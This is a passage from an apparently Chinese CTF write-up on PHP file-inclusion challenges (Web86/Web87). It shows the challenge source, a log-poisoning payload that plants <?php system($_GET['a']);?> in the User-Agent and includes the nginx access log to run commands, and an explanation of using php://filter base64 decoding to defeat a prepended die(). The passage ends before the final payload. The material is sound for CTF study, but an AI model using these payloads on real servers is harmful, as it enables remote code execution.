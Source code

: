 ```php
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

payload

```
包含日志文件 进行getshell 
Useragent: <?php system($_GET['a']);?>
日志文件路径： ?file=/var/log/nginx/access.log&a=ls
```

## Web87：file_put_content和死亡·杂糅

https://xz.aliyun.com/t/8163?time__1311=n4%2BxnD0Dc7GQ0%3DDCDgADlhjm57KWwo3lErTD#toc-3

https://www.leavesongs.com/PENETRATION/php-filter-magic.html

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 21:57:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

使用filter过滤器对输入流进行base64解码扰乱插入的`<?php die('大佬别秀了');?>`，使其不能解析为php，而后面插入的content内容为想要插入的攻击代码的base64编码即可，这样后面的内容就能正常解码出攻击代码，这样既绕过了die也成功注入了攻击代码。不过要使前面`<?php die('大佬别秀了');?>`解码成功还要补位使可解码字符为8的倍数，由于base64编码的组成字符只有`ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/`所以`<?');>`不算有效字符，有效字符只有phpdie不满足4的倍数，所以构造如下content：
